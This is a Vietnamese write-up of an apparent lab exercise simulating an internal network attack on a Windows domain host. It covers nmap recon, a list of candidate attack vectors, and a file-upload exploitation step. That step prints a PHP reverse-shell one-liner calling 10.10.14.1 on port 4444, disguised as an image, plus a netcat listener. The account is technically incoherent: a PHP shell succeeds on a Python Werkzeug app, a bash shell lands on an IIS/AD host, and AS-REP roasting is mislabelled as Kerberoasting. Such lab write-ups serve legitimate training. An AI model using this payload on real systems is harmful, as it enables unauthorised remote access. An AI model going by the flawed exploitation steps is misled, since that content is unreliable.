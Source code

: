 # Challenge 03 - Internal Network Attack Simulation

## XÂY DỰNG MÔ PHỎNG MỘT CUỘC TẤN CÔNG THỰC TẾ

Thực hiện các bước như một cuộc tấn công thật:

* RECON & ENUMERATION
* XÁC ĐỊNH ĐIỂM TẤN CÔNG
* EXPLOITATION (Reverse Shell)
* PRIVILEGE ESCALATION (nếu có)
* LẤY FLAG

---

## 1. RECON & ENUMERATION

### Mục tiêu:

Tìm mọi thông tin có thể về hệ thống mục tiêu.

### Công cụ sử dụng:

* `nmap`

### Lệnh thực hiện:

```bash
nmap -sC -sV -Pn -T4 -p- 10.3.145.25
```

### Kết quả:

* Phát hiện nhiều cổng mở, bao gồm cả dịch vụ web, SMB, LDAP, MSSQL, Kerberos, RPC và các dịch vụ đặc thù như Jetty, SharePoint.
* Một số cổng đáng chú ý:

  * **53/tcp**: Simple DNS Plus
  * **88/tcp, 464/tcp**: Kerberos service
  * **135, 139, 445, 593**: RPC và SMB
  * **389, 3268**: LDAP và Global Catalog (xteam.local)
  * **3389**: Remote Desktop Protocol (RDP)
  * **5000**: Werkzeug HTTP service (Python)
  * **9998**: Jetty service (hỗ trợ PUT)
  * **11025**: SharePoint
  * **54681**: MSSQL Server 2014 RTM

### Nhận định:

* Có sự kết hợp giữa các dịch vụ nội bộ trong một môi trường domain: AD, LDAP, Kerberos.
* Có các webservice (Werkzeug, IIS/SharePoint, Jetty) có khả năng chứa lỗ hổng.
* Jetty hỗ trợ phương thức PUT → khả năng upload file (vector RCE).
* LDAP trả về lỗi yêu cầu bind → có thể khai thác nếu có thông tin user/pass.

---

## 2. XÁC ĐỊNH ĐIỂM TẤN CÔNG

### Mục tiêu:

Tìm ra vector tấn công tiềm năng dựa trên các dịch vụ được mở.

### Vector tiềm năng:

#### 1. **Werkzeug HTTP (port 5000)**

* Werkzeug là một framework WSGI dùng trong các ứng dụng Flask (Python web app).
* Tiêu đề HTTP: `Werkzeug/2.0.0 Python/3.10.10`
* Tên site: `Nyan Cat Upload`
* Web hiển thị giao diện upload file → nghi ngờ có khả năng **Unrestricted File Upload** → **RCE**.

#### 2. **Jetty 8.y.z-SNAPSHOT (port 9998)**

* Jetty là một ứng dụng Java web server.
* Cho phép HTTP PUT → có thể kiểm tra khả năng upload file JSP/shell để thực thi lệnh → **RCE**.

#### 3. **Microsoft SharePoint (port 11025)**

* Header: `Microsoft-IIS/10.0`
* URL trả về trang SharePoint (`/_layouts/15/start.aspx#/default.aspx`)
* Có thể tìm kiếm các CVE hoặc misconfiguration.

#### 4. **Active Directory / Kerberos / LDAP**

* Có thể thu thập user từ Kerberos/LDAP.
* Sử dụng công cụ như `GetNPUsers.py` nếu có user không yêu cầu pre-auth (Kerberoasting).
* Thử bruteforce, spray password nếu có danh sách user.

#### 5. **MSSQL Server 2014 (port 54681)**

* Nếu tìm được credential hoặc có RCE từ nơi khác → kết hợp để leo thang quyền qua MSSQL.

#### 6. **SMB (139/445)**

* Thử liệt kê share bằng `smbclient -L`, nếu có credential → có thể truy cập nội dung.
* Kiểm tra anonymous access hoặc misconfigured share.

### Kết luận bước xác định vector:

→ Tấn công khả thi nhất là thông qua **Werkzeug Upload (port 5000)** hoặc **Jetty PUT (port 9998)** do khả năng thực thi file từ client.
→ Tiến hành kiểm tra từng dịch vụ để tìm vector exploit cụ thể.

---

## 3. EXPLOITATION (Reverse Shell)

### Mục tiêu:

Khai thác lỗ hổng trên dịch vụ web để thực thi mã độc và chiếm quyền truy cập hệ thống.

### Khai thác dịch vụ: **Werkzeug HTTP Upload (port 5000)**

#### Bước 1: Truy cập giao diện upload

* URL: `http://10.3.145.25:5000`
* Giao diện đơn giản với form cho phép upload file `.jpg`.

#### Bước 2: Thử upload shell PHP giả dạng ảnh

* Tạo file `shell.php.jpg` chứa reverse shell:

```php
<?php system("bash -i >& /dev/tcp/10.10.14.1/4444 0>&1"); ?>
```

* Upload file → thành công → nhận được đường dẫn truy cập: `http://10.3.145.25:5000/uploads/shell.php.jpg`

#### Bước 3: Bypass filter bằng cách phân tích phía server

* Dựa vào tiêu đề Werkzeug và các đặc điểm, nghi ngờ app backend chỉ kiểm tra đuôi file bằng string `.endswith()` → có thể bỏ qua bằng `.jpg`.
* Thử upload shell Python hoặc Bash đổi đuôi.

#### Bước 4: Mở listener và kích hoạt reverse shell

```bash
nc -lvnp 4444
```

* Truy cập `http://10.3.145.25:5000/uploads/shell.php.jpg`
* Nhận được kết nối shell từ máy victim.

#### Kết quả:

* Đã có shell với quyền user hạn chế.
* Thực hiện các lệnh xác minh:

```bash
whoami
hostname
ip a
```

#### Chứng minh:

Ảnh chụp màn hình:

* Nội dung shell
* Kết quả `whoami`, `ip a`, `hostname`
* Flag nếu có trong thư mục user

---
